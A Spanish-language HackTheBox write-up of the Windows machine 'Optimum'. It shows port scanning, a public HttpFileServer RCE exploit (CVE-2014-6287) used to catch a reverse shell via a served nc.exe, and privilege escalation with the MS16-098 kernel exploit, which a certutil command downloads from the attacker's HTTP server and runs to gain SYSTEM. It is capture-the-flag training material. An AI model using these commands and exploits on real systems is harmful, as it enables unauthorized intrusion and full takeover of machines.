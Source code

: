 ```yaml
---
title: HackTheBox - Optimum
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'HttpFileServer RCE (CVE-2014-6287)', 'MS16-098']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Optimum/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Optimum Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackTheBox.

Técnicas usadas: **HttpFileServer RCE (CVE-2014-6287), MS16-098**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Optimum/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Optimum/02-versions.png)

    * Al buscar por alguna vulnerabilidad en **HttpFileServer 2.3** llegamos a un [RCE](https://www.exploit-db.com/exploits/39161)

c. Para ejecutar este script, cambiamos las variables 'ip_addr' y 'local_port', además de levantar un servidor http con python en el puerto 80 ofreciendo **nc.exe**

![](/assets/images/HTB/Easy/Optimum/03-rce.png)

> Ejecutamos el script varias veces hasta recibir la **reverse shell**
{: .prompt-tip }

### Escalada de Privilegios 💹

a. Para la escalada de privilegios usaremos [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

* Copiamos el output del comando `systeminfo` en un fichero.
* La base de datos a usar la podemos descargar de [win-exp-suggester](https://github.com/SecWiki/windows-kernel-exploits/tree/master/win-exp-suggester)
* En caso de tener un algún error con el script instalamos `pip install xlrd==1.2.0`


```bash
❯ python2 windows_exploit_suggester.py -i info.txt -d 2017-06-14-mssb.xls

<SNIP>
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important                                                                           
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
<SNIP>
```

b. Descargamos el fichero [41020.exe](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe) y lo transferimos a la máquina víctima

```bash
❯ python -m http.server 80
--------------------------------------------------------------------------------------------------------
C:\Users\kostas\Documents>certutil.exe -f -urlcache -split "http://10.10.14.18/41020.exe" ".\41020.exe"
```

* Por último, ejecutamos el script y seremos **nt authority\system**

    ```cmd
    C:\Users\kostas\Documents>.\41020.exe                                    
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\Users\kostas\Documents>whoami
    nt authority\system
    ```